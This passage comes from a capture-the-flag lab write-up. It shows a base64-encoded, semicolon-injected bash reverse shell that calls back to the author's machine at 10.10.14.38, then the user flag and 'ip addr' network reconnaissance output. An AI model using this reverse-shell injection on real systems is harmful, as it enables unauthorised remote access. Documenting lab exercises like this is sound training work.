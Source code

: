 Looks like it worked.  Now we need to get a shell.  We can use bash to create a reverse shell to call us back:
```bash
echo "blahblahblah; bash -i >& /dev/tcp/10.10.14.38/8000 0>&1 #" | base64
YmxhaGJsYWhibGFoOyBiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjM4LzgwMDAgMD4mMSAjCg==
```

Looks like we have a shell, and after some poking around, we find the user flag in root's home directory.
![user flag](screenshots/13_user_flag.png)

I guess this is not the real root we are looking for.  Oh well.  At least we have the user flag.  We can work on getting the root flag.

## Root Flag
After a little bit of poking around, it seems like this box has a number of different interfaces and routes to a number of different networks:

```bash
ip addr
```
```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet 192.168.0.100/32 scope global lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
8: eth0@if9: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state 10.UP group default qlen 1000
    link/ether 00:16:3e:d9:04:ea brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.99.64.2/24 brd 10.99.64.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fed9:4ea/64 scope link 
       valid_lft forever preferred_lft forever
10: eth1@if11: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:8a:f2:4f brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.78.10.1/24 brd 10.78.10.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fe8a:f24f/64 scope link 
       valid_lft forever preferred_lft forever
```